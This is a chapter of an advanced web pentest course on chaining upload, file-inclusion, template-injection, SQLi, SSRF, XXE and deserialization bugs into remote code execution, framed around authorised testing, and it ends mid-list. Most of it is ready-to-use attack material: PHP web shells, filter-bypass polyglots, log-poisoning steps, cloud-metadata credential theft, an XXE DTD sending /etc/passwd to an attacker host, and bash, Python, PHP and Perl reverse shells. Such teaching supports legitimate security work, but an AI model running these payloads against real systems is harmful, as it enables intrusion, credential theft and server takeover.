








**Level:** Advanced · **Track:** Penetration Testing · **Read time:** 260 min

This is Chapter 4 of the Web Application Pentest notebook. Chapter 1 gave you the
method, Chapter 2 mapped the attack surface, and Chapter 3 attacked the
authentication, session and access-control boundary. By now you can find bugs.
This chapter is about what separates a finding from an incident: taking those
bugs and **chaining them into remote code execution** — an interactive shell
running on the target server, under the web application's operating-system
account.

A report that says "the upload form accepts `.php` files" is a medium. A report
that says "the upload form accepts `.php` files, so I uploaded a web shell,
executed `id`, read the database credentials out of `config.php`, used them to
reach the internal Redis instance over SSRF, and from there I had code execution
on three more hosts" is a critical — and it is the same underlying bug. The
difference is *chaining*: composing primitives until you cross from "the app
misbehaves" to "I control the machine."

Everything in this chapter assumes **explicit, written, in-scope authorisation**.
Getting a shell on a system you do not own or have permission to test is a crime
in essentially every jurisdiction. The techniques here are for authorised
penetration tests, bug-bounty programs whose scope permits proof-of-concept RCE,
and your own lab machines. Where a technique is destructive or noisy, that is
called out so you can stay inside scope and inside the rules of engagement.

---

## Part 1: The Chaining Mindset — Why Single Bugs Rarely Matter

A vulnerability is a broken assumption. An **exploit chain** is a sequence of
broken assumptions where the output of one becomes the input to the next, and the
combined effect is far greater than the sum of the parts. Real-world compromise is
almost always a chain, because modern applications rarely hand you a single bug
that goes straight from anonymous internet to root. Instead you get a foothold
bug, then a pivot bug, then an escalation bug.

Think in terms of **primitives** — the fundamental capability a bug grants you —
rather than in terms of the vulnerability's name:

| Primitive | What it actually gives you | Typical source bug |
|-----------|---------------------------|--------------------|
| **Arbitrary file read** | Read any file the app user can read | LFI, path traversal, XXE, SSRF `file://` |
| **Arbitrary file write** | Place attacker content at a chosen path | Upload, SQLi `INTO OUTFILE`, zip-slip |
| **Arbitrary request** | Make the server send HTTP/other requests | SSRF, XXE, open redirect + fetch |
| **Code / command execution** | Run attacker-controlled code | Upload→web shell, SSTI, deserialization, LFI→RCE |
| **Credential disclosure** | Obtain secrets / tokens | File read of config, metadata SSRF, error leaks |

Once you frame bugs as primitives, chaining becomes a graph-search problem: you
have a starting primitive and you want to reach *code execution*. You look for a
bug that upgrades what you have into what you need. Arbitrary file **read** finds
you credentials; credentials get you into an admin panel; the admin panel has an
upload that yields **write**; write of a `.php` file yields **execution**.



**Bug-bounty relevance:** triagers pay for demonstrated impact. A blind SSRF is
often a low/medium until you chain it to cloud metadata and pull IAM credentials —
then the same report becomes a critical worth 10–50x more. The chain *is* the
payout. Many disclosed HackerOne reports read as "bug A alone = informative, bug A
+ bug B = $$$."

**CTF relevance:** almost every web/pwn box on HackTheBox and the harder
TryHackMe rooms is a two- or three-step chain (foothold web bug → user shell →
privesc). Training the "what primitive does this give me, and what does it upgrade
into" reflex is exactly what those boxes reward.

### The rules of engagement never disappear

Before you fire a single RCE payload, know what your rules of engagement (ROE)
allow. Proof-of-concept RCE on a production system can crash services, corrupt
data, or trip incident response. On a bug-bounty program, "achieving RCE" may be
explicitly out of scope even when the underlying bug is in scope — you may be
required to stop at demonstrating file write, not run a shell. When in doubt, the
safe proof is the minimal one: `id`, `hostname`, and a unique marker file, never
`rm`, never lateral movement, never reading real customer data.

---

## Part 2: The Shell as the Goal — What "Getting a Shell" Really Means

"Getting a shell" means obtaining an interactive (or semi-interactive) command
interpreter that runs on the target and executes commands as some OS user —
usually the account the web server runs as (`www-data`, `apache`, `nginx`,
`iis apppool\<site>`, or a service account). It is the moment you stop speaking
HTTP to an application and start speaking shell to an operating system.

There are three broad flavours, and knowing which one you have shapes everything
you do next:

| Shell type | How it works | Pros | Cons |
|-----------|--------------|------|------|
| **Web shell** | A script (e.g. `cmd.php`) you drop on the server; you send commands via HTTP params | Survives across requests, easy to reach through a proxy/WAF, no outbound needed | Stateless, no TTY, one command per request, easy to log |
| **Reverse shell** | Target connects *out* to your listener | Works through inbound firewalls/NAT on the target; interactive | Needs outbound egress allowed; your listener must be reachable |
| **Bind shell** | Target opens a listening port; you connect *in* | Simple | Almost always blocked by inbound firewalls; rare in practice |

The usual progression is: land a **web shell** for reliability, use it to fire a
**reverse shell** for interactivity, then **stabilise** that reverse shell into a
full TTY (covered in Part 11). A reverse shell is preferred for real work because
inbound connections to the target are typically filtered while outbound
connections often are not.



### The `/dev/tcp` trick, explained from scratch

That reverse-shell one-liner uses a Bash feature that trips up beginners:
`/dev/tcp/HOST/PORT` is **not a real file**. It is a special pathname Bash
interprets as "open a TCP socket to HOST:PORT." So:

```bash
bash -c 'sh -i >& /dev/tcp/10.10.14.7/443 0>&1'
```

- `sh -i` starts an **i**nteractive shell.
- `>& /dev/tcp/10.10.14.7/443` redirects both stdout and stderr into a TCP socket
  connected to your listener at `10.10.14.7:443`.
- `0>&1` redirects stdin (fd 0) to the same socket, so what you type on your side
  is fed to the shell.

On your machine you catch it with a listener:

```bash
# Netcat listener on port 443 (needs root to bind <1024)
sudo nc -lvnp 443
```

`-l` listen, `-v` verbose, `-n` no DNS resolution, `-p 443` port. When the target
runs the one-liner, `nc` prints the connection and you get a prompt. We build the
full toolkit — including why `nc` alone is a bad TTY — in Part 9.

---

## Part 3: File Upload to Web Shell — The Most Direct Road

An upload feature that lets you write a server-executable file into a
web-accessible directory is the shortest path from bug to shell. The vulnerability
class is **unrestricted / improperly validated file upload** (OWASP: "Unrestricted
File Upload"). The goal is to place a script the server will *execute* when you
request it, not merely store.

### 3.1 The simplest case

If the app saves your file under the webroot with its original name and the server
is configured to execute `.php`, you are done:

```php
<?php system($_GET['cmd']); ?>
```

Save as `shell.php`, upload, then:

```bash
curl 'https://target/uploads/shell.php?cmd=id'
# uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Real applications rarely make it this easy. They apply one or more filters, and
your job is to find which filter is in play and bypass it. Enumerate the control
first — upload a benign file, watch the response, note the stored path, filename
transformation and any error messages — *before* trying to weaponise.

### 3.2 The filter taxonomy and how to defeat each



| Filter | Mechanism | Bypass techniques |
|--------|-----------|-------------------|
| **Extension blacklist** | Blocks `.php`, `.phtml` | Alternate exec extensions: `.php3 .php4 .php5 .php7 .pht .phtml .phar`; case `PhP`; trailing dot/space `shell.php.`; on some stacks `shell.php%00.jpg` |
| **Extension whitelist** | Only `.jpg/.png` allowed | Double extension `shell.jpg.php` (Apache mis-config), null byte (old PHP), content-sniffing polyglots |
| **Content-Type** | Checks `Content-Type` header | Set `Content-Type: image/png` in the multipart part while keeping `.php` name/body |
| **Magic bytes** | Reads first bytes for image signature | Prepend `GIF89a;` or a real PNG header, then your PHP after it |
| **Image re-encoding** | Rebuilds the image (kills appended code) | Embed payload in EXIF/`tEXt`/`iCCP` chunk that survives, or pivot to a different bug |
| **Stored outside webroot** | Files not directly reachable | Chain with LFI to include the uploaded file; or path-traversal filename to escape into webroot |

### 3.3 Content-Type and magic-byte bypass, concretely

Suppose the server checks both the `Content-Type` header and the first bytes.
Craft a **polyglot**: a file that is a valid GIF *and* valid PHP.

```bash
# Build the polyglot: GIF magic header + PHP payload
printf 'GIF89a;\n<?php system($_GET["c"]); ?>\n' > shell.gif.php
```

Then send it with a spoofed MIME type. Here is the raw multipart body Burp
Repeater would send:

```http
POST /upload HTTP/1.1
Host: target
Content-Type: multipart/form-data; boundary=----x

------x
Content-Disposition: form-data; name="avatar"; filename="shell.gif.php"
Content-Type: image/gif

GIF89a;
<?php system($_GET["c"]); ?>
------x--
```

`GIF89a;` satisfies the magic-byte check, `Content-Type: image/gif` satisfies the
MIME check, and `.php` (or the double extension `shell.gif.php` on a mis-configured
Apache) makes it execute. Request it:

```bash
curl 'https://target/uploads/shell.gif.php?c=id'
```

### 3.4 When you can upload config: `.htaccess` and `web.config`

If the whitelist allows arbitrary extensions but only images execute, sometimes
you can change the *server config* by uploading it. On Apache with
`AllowOverride` enabled, drop a `.htaccess` that maps a new extension to the PHP
handler:

```apache
# .htaccess — make .lol files run as PHP
AddType application/x-httpd-php .lol
```

Upload `.htaccess`, then upload `shell.lol` containing PHP, then browse it. On
IIS, the analogous file is `web.config`, which can smuggle classic-ASP or add
handler mappings. This is a favourite on PortSwigger's "Web shell upload via
.htaccess" lab and appears in real engagements where an image CDN directory is
writable.

**Red team usage:** the web shell should be *quiet* — a single obscure parameter,
a name that blends in (`thumb_cache.php`), and ideally deleted or overwritten
after you pivot to a reverse shell, so it does not sit on disk as evidence and get
your access burned by the next scan.

**Blue team usage:** file uploads into a directory that is *both writable and
executable* is the root misconfiguration. Detection lives in Part 13, but the one
sentence version: web servers should never execute anything in an upload
directory, full stop.

---

## Part 4: Local & Remote File Inclusion to RCE

**File inclusion** happens when the application uses attacker-influenced input to
choose which file to load and run. In PHP it is the `include`, `require`,
`include_once` and `require_once` family; equivalents exist in other stacks.

```php
// Vulnerable: page name comes straight from the user
$page = $_GET['page'];
include($page . '.php');
```

**Local File Inclusion (LFI)** includes a file already on the server. **Remote
File Inclusion (RFI)** includes a file from a URL you control (only when
`allow_url_include=On`, rare today). LFI is far more common, and the interesting
part is that LFI is not just file *read* — with the right trick it becomes code
*execution*.

### 4.1 From traversal to read

First confirm the primitive with a classic traversal read:

```bash
curl 'https://target/index.php?page=../../../../etc/passwd%00'
```

The `%00` null byte (old PHP < 5.3.4) truncates the appended `.php`. Modern
targets ignore it; instead rely on the include not appending a suffix, or use a
wrapper. If you can read `/etc/passwd`, you have arbitrary file read — a strong
primitive on its own (read source, config, SSH keys, tokens).

### 4.2 PHP wrappers — read source and execute

PHP exposes **stream wrappers**, pseudo-protocols usable anywhere a filename is
expected. They turn LFI into powerful primitives:

| Wrapper | Effect | Example |
|---------|--------|---------|
| `php://filter` | Transform a file while reading — base64-encode source so PHP doesn't execute it | `php://filter/convert.base64-encode/resource=config` |
| `data://` | Supply inline content as a "file" — direct code exec if `allow_url_include=On` | `data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUW2NdKTs/Pg==` |
| `expect://` | Run a command (needs the `expect` extension) | `expect://id` |
| `php://input` | Reads the raw POST body as the included file | POST `<?php system('id');?>` |
| `phar://` | Deserialization via Phar metadata | `phar://uploaded.jpg/x` |
| `zip://` | Include a file inside an uploaded zip | `zip://up.zip%23shell.php` |

Read the app's own source to find more bugs and secrets:

```bash
curl 'https://target/index.php?page=php://filter/convert.base64-encode/resource=config'
# returns base64; decode it:
echo 'PD9waHAgJGRiX3Bhc3M9...' | base64 -d
```

### 4.3 LFI to RCE: log poisoning

If you can *include* a file whose contents you can *control*, you get execution.
Server logs are perfect: the server writes your input into them, and you include
the log. This is **log poisoning**.

1. Poison the User-Agent (or any logged field) with PHP:

```bash
curl -A '<?php system($_GET["c"]); ?>' https://target/
```

2. Include the access log through the LFI, passing your command:

```bash
curl 'https://target/index.php?page=/var/log/apache2/access.log&c=id'
# uid=33(www-data) ...
```

The server logged your PHP-laden User-Agent; when PHP `include`s the log file, it
parses and executes the embedded code. Other poisonable sinks: `/var/log/auth.log`
(inject via SSH username), mail files (`/var/mail/www-data`), and PHP session
files (`/var/lib/php/sessions/sess_<PHPSESSID>` — set a session value containing
PHP, then include the session file).



### 4.4 RFI when it exists

If `allow_url_include=On`, RFI is trivial — host a payload and include its URL:

```bash
# On attacker box
echo '<?php system($_GET["c"]); ?>' > p.txt
python3 -m http.server 80
# Trigger
curl 'https://target/index.php?page=http://10.10.14.7/p.txt&c=id'
```

**CTF relevance:** LFI→RCE via log poisoning and `php://filter` source-read is one
of the most-tested web primitives on TryHackMe and PortSwigger; the "file path
traversal" and "remote code execution via web shell upload" labs pair directly
with this section.

---

## Part 5: Server-Side Template Injection (SSTI) to RCE

Template engines (Jinja2, Twig, Freemarker, Velocity, Handlebars, ERB) render
dynamic pages by evaluating expressions embedded in templates. **SSTI** occurs
when user input is concatenated into the template *source* rather than passed as
*data*, so the engine evaluates attacker input as template code — which, in most
engines, reaches full RCE.

### 5.1 Detection

The universal first probe is a math expression in template syntax. If `{{7*7}}`
comes back as `49`, the engine evaluated it — you have SSTI, not XSS.

| Engine | Detection returns 49 for | Language |
|--------|--------------------------|----------|
| Jinja2 / Twig | `{{7*7}}` | Python / PHP |
| Freemarker | `${7*7}` | Java |
| Velocity | `#set($x=7*7)$x` | Java |
| ERB (Ruby) | `<%= 7*7 %>` | Ruby |
| Handlebars | `{{#with 7}}...{{/with}}` | JS |

Distinguish engines with a decision probe: `${7*7}` renders `49` in Freemarker but
literally in Jinja2; `{{7*'7'}}` gives `7777777` in Jinja2 (Python) but an error
in Twig (PHP). PortSwigger's SSTI labs and the tool **tplmap** automate this
fingerprinting.



### 5.2 Exploitation — Jinja2 (Python)

Jinja2 SSTI escalates to RCE by climbing Python's object model to reach
`os.popen` or `subprocess`:

```python
{{ ''.__class__.__mro__[1].__subclasses__() }}
```

That lists every subclass of `object`; find one that imports os or runs commands,
e.g. `subprocess.Popen`, then call it. A compact, widely-working payload:

```python
{{ cycler.__init__.__globals__.os.popen('id').read() }}
```

or via the config object trick:

```python
{{ config.__class__.__init__.__globals__['os'].popen('id').read() }}
```

### 5.3 Exploitation — Twig, Freemarker

```twig
{{ ['id'] | filter('system') }}
{{ ['id'] | map('system') | join }}
```

Freemarker (Java):

```
<#assign ex="freemarker.template.utility.Execute"?new()>${ ex("id") }
```

**Bug-bounty relevance:** SSTI in an email-templating or PDF-generation feature is
a recurring critical — user-set "name" or "company" fields flow into a server-side
template. The classic pattern is `{{7*7}}` in a profile field showing up rendered
on an invoice.

---

## Part 6: SQL Injection Beyond Data — File Write and RCE

Chapter 3 and the SQLi guide treat injection as a data-exfiltration bug. Chained
for shell, SQLi becomes a **file-write** and sometimes a **command-execution**
primitive.

### 6.1 MySQL `INTO OUTFILE` — write a web shell

If the DB user has `FILE` privilege and `secure_file_priv` is empty (or points at
the webroot), a `UNION`-based injection can write a PHP shell straight into a
web-served directory:

```sql
' UNION SELECT "<?php system($_GET['c']); ?>",2,3 INTO OUTFILE '/var/www/html/s.php' -- -
```

Then:

```bash
curl 'https://target/s.php?c=id'
```

`INTO OUTFILE` will not overwrite an existing file and needs a path the DB process
can write. Enumerate constraints first:

```sql
' UNION SELECT @@secure_file_priv, @@version, 3 -- -
```

| DB | File write | File read | Command exec |
|----|-----------|-----------|--------------|
| MySQL/MariaDB | `INTO OUTFILE` / `INTO DUMPFILE` (+`FILE` priv) | `LOAD_FILE()` | UDF `sys_exec` (if lib writable) |
| PostgreSQL | `COPY ... TO` / large objects | `COPY ... FROM` | `COPY ... TO PROGRAM` (superuser), `pg_read_server_files` |
| MSSQL | `OPENROWSET`/bulk | `OPENROWSET` | `xp_cmdshell` (if enabled) |
| Oracle | UTL_FILE | UTL_FILE | Java stored procs, DBMS_SCHEDULER |

### 6.2 MSSQL `xp_cmdshell` — direct command execution

On Microsoft SQL Server, if you are `sa` or have rights, enable and call
`xp_cmdshell`:

```sql
'; EXEC sp_configure 'show advanced options',1; RECONFIGURE;
   EXEC sp_configure 'xp_cmdshell',1; RECONFIGURE;
   EXEC xp_cmdshell 'whoami'; -- -
```

### 6.3 PostgreSQL `COPY ... TO PROGRAM`

```sql
'; COPY (SELECT '') TO PROGRAM 'id'; -- -
```

Automate the whole flow with **sqlmap** once you have confirmed injection:

```bash
sqlmap -r req.txt --os-shell        # interactive OS shell if privileges allow
sqlmap -r req.txt --file-write shell.php --file-dest /var/www/html/s.php
```

`-r req.txt` feeds a saved raw request (from Burp), `--os-shell` attempts to drop
a stager and give you a command prompt, `--file-write/--file-dest` writes a local
file to a remote path. sqlmap is taught from scratch in the SQLi guide; here it is
the automation layer over the manual primitives above.

---

## Part 7: SSRF as a Pivot — Internal Services and Cloud Metadata

**Server-Side Request Forgery (SSRF)** makes the server issue requests *you*
control. On its own it is a request primitive; chained, it is one of the most
valuable pivots in web security because the server sits inside a trusted network
you cannot otherwise reach.

### 7.1 The three payoffs



### 7.2 Cloud metadata — instant credential theft

Cloud instances expose a link-local metadata endpoint at `169.254.169.254`. If the
server has an IAM role, SSRF to it hands you temporary credentials:

```bash
# AWS IMDSv1 (no token required)
curl 'https://target/fetch?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/'
# -> role name, then:
curl 'https://target/fetch?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/ROLE'
# -> AccessKeyId / SecretAccessKey / Token
```

| Cloud | Metadata base | Note |
|-------|---------------|------|
| AWS | `http://169.254.169.254/latest/meta-data/` | IMDSv2 needs a `PUT` token header — chain if the SSRF allows method/header control |
| GCP | `http://metadata.google.internal/computeMetadata/v1/` | Requires header `Metadata-Flavor: Google` |
| Azure | `http://169.254.169.254/metadata/instance?api-version=2021-02-01` | Requires header `Metadata: true` |
| DigitalOcean | `http://169.254.169.254/metadata/v1/` | |

Export the stolen keys and confirm:

```bash
export AWS_ACCESS_KEY_ID=... AWS_SECRET_ACCESS_KEY=... AWS_SESSION_TOKEN=...
aws sts get-caller-identity
```

### 7.3 Internal services to RCE

SSRF that reaches an unauthenticated internal Redis, for example, becomes RCE:
write a cron job or a webshell via Redis commands smuggled through `gopher://`:

```
gopher://127.0.0.1:6379/_%0d%0aSET%20x%20%22%3C%3Fphp...%3F%3E%22%0d%0aCONFIG%20SET%20dir%20/var/www/html%0d%0aCONFIG%20SET%20dbfilename%20sh.php%0d%0aSAVE
```

The `gopher://` wrapper lets you send arbitrary bytes to a TCP service, so a
single SSRF becomes an arbitrary-protocol client. This is the canonical
"SSRF → Redis → RCE" chain seen in numerous bug-bounty writeups.

### 7.4 Bypassing SSRF filters

| Filter | Bypass |
|--------|--------|
| Blocklist `127.0.0.1`/`localhost` | `127.1`, `0.0.0.0`, `[::1]`, `2130706433` (decimal), `0x7f000001` (hex) |
| Allowlist by hostname | DNS rebinding, `attacker.com` resolving to `169.254.169.254`; `@` tricks `http://expected@169.254.169.254/` |
| Scheme filter | `file://`, `gopher://`, `dict://`, `ftp://` |
| Regex on `http://` | Add a fragment/userinfo, uppercase scheme, redirect via your server (302 to internal) |

---

## Part 8: XXE and Deserialization — Two More Roads to Code Execution

### 8.1 XML External Entity (XXE)

If an endpoint parses XML with external entities enabled, you get file read, SSRF,
and sometimes RCE. Define an entity that references a local file:

```xml
<?xml version="1.0"?>
<!DOCTYPE r [ <!ENTITY x SYSTEM "file:///etc/passwd"> ]>
<root><name>&x;</name></root>
```

Blind/out-of-band XXE exfiltrates via an external DTD you host:

```xml
<!DOCTYPE r [
  <!ENTITY % ext SYSTEM "http://10.10.14.7/evil.dtd"> %ext; ]>
```

```dtd
<!-- evil.dtd -->
<!ENTITY % f SYSTEM "file:///etc/passwd">
<!ENTITY % all "<!ENTITY send SYSTEM 'http://10.10.14.7/?d=%f;'>">
%all;
```

XXE → RCE is possible on PHP with the `expect://` wrapper
(`<!ENTITY x SYSTEM "expect://id">`) when the extension is loaded, and via SSRF to
an internal service as in Part 7.

### 8.2 Insecure deserialization

When an app deserializes attacker-controlled data into live objects, crafted input
can trigger code execution through **gadget chains** — existing classes whose
side effects, when strung together during deserialization, run commands.

| Stack | Marker | Tooling |
|-------|--------|---------|
| Java | `rO0AB` (base64), `AC ED 00 05` (raw) | **ysoserial** (`CommonsCollections`, `URLDNS`) |
| PHP | `O:` / `a:` serialized strings; `__wakeup`/`__destruct` magic | **PHPGGC** |
| .NET | `TypeObject`, BinaryFormatter | **ysoserial.net** |
| Python | pickle `\x80` opcode | manual `__reduce__` payloads |

Example — generate a Java gadget and send it as the vulnerable cookie/parameter:

```bash
java -jar ysoserial.jar CommonsCollections5 'bash -c {echo,BASE64REV}|{base64,-d}|bash' | base64 -w0
```

Python pickle RCE (only ever run on data you generated, in your lab):

```python
import pickle, os, base64
class E:
    def __reduce__(self): return (os.system, ('id',))
print(base64.b64encode(pickle.dumps(E())).decode())
```

**Detecting the primitive:** look for base64 blobs starting `rO0`, `TypeObject`,
`gAS` (Python), or `O:`/`a:` in cookies, hidden fields, `viewstate`, and API
bodies — these scream "serialized object."

---

## Part 9: Web Shells and Reverse Shells — The Toolkit From Scratch

Before the lab, build the toolkit properly. Each tool is introduced from zero.

### 9.1 Netcat (`nc`) — the network Swiss army knife

Netcat reads and writes raw TCP/UDP. It is your default listener for catching
reverse shells.

```bash
sudo nc -lvnp 443     # listen: -l listen, -v verbose, -n no-DNS, -p port
```

Netcat has no line editing, no job control, no TTY — Ctrl-C kills your whole
listener. That is why we upgrade the shell (9.4). If the target has a
feature-rich `nc` (rare), a bind/reverse can be one command; assume it does not
and use language one-liners.

### 9.2 Reverse-shell one-liners (by what the target has)

```bash
# Bash
bash -c 'sh -i >& /dev/tcp/10.10.14.7/443 0>&1'
# Python3
python3 -c 'import socket,subprocess,os;s=socket.socket();s.connect(("10.10.14.7",443));[os.dup2(s.fileno(),f) for f in(0,1,2)];subprocess.call(["/bin/sh","-i"])'
# PHP
php -r '$s=fsockopen("10.10.14.7",443);exec("/bin/sh -i <&3 >&3 2>&3");'
# Perl
perl -e 'use Socket;$i="10.10.14.7";$p=443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));connect(S,sockaddr_in($p,inet_aton($i)));open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");'
# Powershell (Windows target)
